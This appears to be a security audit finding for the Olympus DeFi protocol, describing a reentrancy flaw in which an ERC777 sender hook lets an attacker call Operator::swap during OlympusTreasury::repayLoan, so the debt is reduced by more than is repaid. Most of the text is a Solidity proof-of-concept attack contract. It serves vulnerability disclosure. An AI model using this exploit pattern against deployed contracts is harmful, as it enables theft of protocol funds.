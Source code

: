 Let's say that the reserve token implements ERC777 with the hook for the sender [(see weird erc20)](https://github.com/d-xo/weird-erc20#reentrant-calls). If the attacker can take debt of the reserve currency for the attack contract `Reenterer`, the contract can call `OlympusTreasury::repayLoan` and in the middle of repay call `Operator::swap` function. The `swap` function will modify the reserve token balance of treasury and the amount the attacker swapped will be also be used for the `repayLoan`.

In the below example, the attacker has debt of 1e18, and repays 1e17. But since the `swap` function is called in the `repayLoan`, the debt is reduced 1e17 more then it should. And the swap happened as expected so the attack has the corresponding ohm token.

```solidity
/// Mock to simulate the senders hook
/// for simplicity omitted the certain aspects like ERC1820 registry and etc.
contract MockERC777 is MockERC20 {
    constructor () MockERC20("ERC777", "777", 18) {}

    function transferFrom(address from, address to, uint256 amount) public override returns (bool) {
        _callTokenToSend(from, to, amount);
        return super.transferFrom(from, to, amount);
        // _callTokenReceived(from, to, amount);
    }

    // simplified implementation for ERC777
    function _callTokenToSend(address from, address to, uint256 amount) private {
      if (from != address(0)) {
        IERC777Sender(from).tokensToSend(from, to, amount);
      }
    }
}

interface IERC777Sender {
  function tokensToSend(address from, address to, uint256 amount) external;
}

/// Concept for an attack contract
contract Reenterer is IERC777Sender {
  ERC20 public token;
  Operator public operator;
  bool public entered;

  constructor(address token_, Operator op_) {
    token = ERC20(token_);
    operator = op_;
  }

  function tokensToSend(address from, address to, uint256 amount) external override {
    if (!entered) {
    // call swap from reenter
    // which will manipulate the balance of treasury
      entered = true;
      operator.swap(token, 1e17, 0);
    }
  }
  
  function attack(OlympusTreasury treasury) public {
    // approve to the treasury
    token.approve(address(treasury), 1e18);
    token.approve(address(operator), 100* 1e18);

    // repayDebt of 1e17
    treasury.repayLoan(token, 1e17);
  }
}
```